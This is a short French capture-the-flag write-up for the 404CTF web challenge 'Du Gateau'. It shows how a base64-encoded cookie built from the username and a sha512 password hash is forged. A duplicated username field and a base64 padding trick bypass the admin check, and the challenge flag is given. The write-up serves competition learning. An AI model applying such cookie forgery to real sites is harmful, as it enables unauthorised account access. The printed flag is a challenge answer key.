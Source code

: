 # Du Gateau

on se connecte au [site](https://du-gateau.404ctf.fr)

 - on arrive facilement à se connecter avec nimporte quel utilisateur et mot de passe. par exemple test:test
 
 - on récupère le cookie de connexion :

 ```sql
  dXNlcm5hbWU9dGVzdDtwYXNzd29yZD1lZTI2YjBkZDRhZjdlNzQ5YWExYThlZTNjMTBhZTk5MjNmNjE4OTgwNzcyZTQ3M2Y4ODE5YTVkNDk0MGUwZGIyN2FjMTg1ZjhhMGUxZDVmODRmODhiYzg4N2ZkNjdiMTQzNzMyYzMwNGNjNWZhOWFkOGU2ZjU3ZjUwMDI4YThmZg==
  ```

- on décode avec base64 :  
```text
username=test;password=ee26b0dd4af7e749aa1a8ee3c10ae9923f618980772e473f8819a5d4940e0db27ac185f8a0e1d5f84f88bc887fd67b143732c304cc5fa9ad8e6f57f50028a8ff
```

et en cherchant bien dans le code source on peut remarquer qu'il y a une référence au **sha512**  et en tapant le sha512(test) on obtient effectivement: 
```text
ee26b0dd4af7e749aa1a8ee3c10ae9923f618980772e473f8819a5d4940e0db27ac185f8a0e1d5f84f88bc887fd67b143732c304cc5fa9ad8e6f57f50028a8ff
```

ce qui correspond à la fin du cookie de connexion.

on a donc un cookie de la forme : 
```text
username=login;password=sha512(password)
```

on test avec **admin:test**

on a le cookie suivant :
```text
dXNlcm5hbWU9YWRtaW47cGFzc3dvcmQ9ZWUyNmIwZGQ0YWY3ZTc0OWFhMWE4ZWUzYzEwYWU5OTIzZjYxODk4MDc3MmU0NzNmODgxOWE1ZDQ5NDBlMGRiMjdhYzE4NWY4YTBlMWQ1Zjg0Zjg4YmM4ODdmZDY3YjE0MzczMmMzMDRjYzVmYTlhZDhlNmY1N2Y1MDAyOGE4ZmY=
```

Mais on ne parvient pas à s'authentifier.

on contourne la verification avec un cookie de la forme : 
```text
username=test;username=admin;password=sha512(password)
```
```text
dXNlcm5hbWU9dGVzdDt1c2VybmFtZT1hZG1pbjtwYXNzd29yZD1lZTI2YjBkZDRhZjdlNzQ5YWExYThlZTNjMTBhZTk5MjNmNjE4OTgwNzcyZTQ3M2Y4ODE5YTVkNDk0MGUwZGIyN2FjMTg1ZjhhMGUxZDVmODRmODhiYzg4N2ZkNjdiMTQzNzMyYzMwNGNjNWZhOWFkOGU2ZjU3ZjUwMDI4YThmZg==
```

on accède enfin à l'onglet “Mot de Passe oublié”
quand on regarde le code source de la page, on trouve le sha512 du mdp de l'admin:

```text
66651013935b4c2c31d9baba8fa5d37b809b10da453f293ec8f9a7fbb2ab2e2c1d69dc8d80969508028b5ec14e9d1de585929a4c0d534996744b495c325e3f3d
```

on recrée un cookie : 

```text
dXNlcm5hbWU9YWRtaW47cGFzc3dvcmQ9NjY2NTEwMTM5MzViNGMyYzMxZDliYWJhOGZhNWQzN2I4MDliMTBkYTQ1M2YyOTNlYzhmOWE3ZmJiMmFiMmUyYzFkNjlkYzhkODA5Njk1MDgwMjhiNWVjMTRlOWQxZGU1ODU5MjlhNGMwZDUzNDk5Njc0NGI0OTVjMzI1ZTNmM2Q=
```

mais ce cookie est filtré.

en utilisant des propriétés du base64, on ajoute un caractère au cookie et on arrive à entrer dans la page administration : 

>404CTF{m3f13Z_V0Us_D3s_MdP_D4nS_L3s_c00k13s!}